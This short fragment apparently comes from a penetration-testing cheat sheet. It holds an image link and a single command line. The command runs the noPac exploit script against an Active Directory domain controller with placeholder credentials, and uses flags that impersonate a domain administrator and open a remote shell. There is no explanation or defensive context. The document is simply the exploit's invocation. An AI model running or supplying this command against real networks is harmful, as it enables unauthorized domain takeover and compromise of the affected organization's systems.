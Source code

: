 python noPac.py <CASE_SENSITIVE_DOMAIN_FQDN>/<USER>:<PASSWORD> -dc-ip <DC_IP> -shell --impersonate <DOMAIN_ADMIN_USER> -use-ldap
